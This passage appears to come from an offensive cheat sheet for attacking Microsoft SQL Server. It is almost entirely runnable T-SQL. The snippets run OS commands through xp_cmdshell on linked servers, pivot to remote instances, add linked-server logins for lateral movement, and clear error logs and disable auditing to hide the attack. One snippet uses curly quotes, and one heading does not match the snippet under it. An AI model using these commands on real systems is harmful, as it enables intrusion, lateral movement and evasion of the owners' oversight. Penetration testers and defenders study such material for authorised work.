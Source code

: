     ```c
    EXECUTE('select @@servername') AT [LOCAL.TEST.LINKED.SRV]
    ```
6.  **To run two commands:**

    ```c
    EXECUTE('xp_cmdshell ''dir''') AT [LOCAL.TEST.LINKED.SRV]
    ```
7.  **To run multiple commands at once:** Use a semicolon between each command.

    ```c
    EXECUTE(’ first command ; second command’) AT [LOCAL…]
    ```

#### Pivoting via Linked Servers

*   **Tool:** \[\[SQLCMD]]

    ```sql
    EXEC sp_addlinkedserver 'RemoteServer', N'SQL Server';
    EXEC sp_serveroption 'RemoteServer', 'rpc out', 'true';
    EXEC ('xp_cmdshell ''net user /domain''') AT RemoteServer;
    ```
* **Description:** Use a linked server to pivot and execute commands on a remote SQL Server instance.

#### Using SQL Server for Lateral Movement

*   **Tool:** \[\[SQLCMD]]

    ```sql
    EXEC sp_addlinkedserver '<target_server>';
    EXEC sp_addlinkedsrvlogin '<target_server>', 'false', NULL, '<username>', '<password>';
    ```
* **Description:** Establishes a linked server connection to another SQL Server, potentially allowing lateral movement.

### Defense Evasion

#### Hiding Tracks via SQL Logs

*   **Tool:** \[\[SQLCMD]]

    ```sql
    EXEC sp_cycle_errorlog;
    ```
* **Description:** Rotate and clear the SQL Server error log to hide malicious activities.

#### Disabling Auditing

*   **Tool:** \[\[SQLCMD]]

    ```sql
    ALTER SERVER AUDIT [AuditName] WITH (STATE = OFF);
    ```
* **Description:** Disables auditing on SQL Server to avoid detection during an attack.

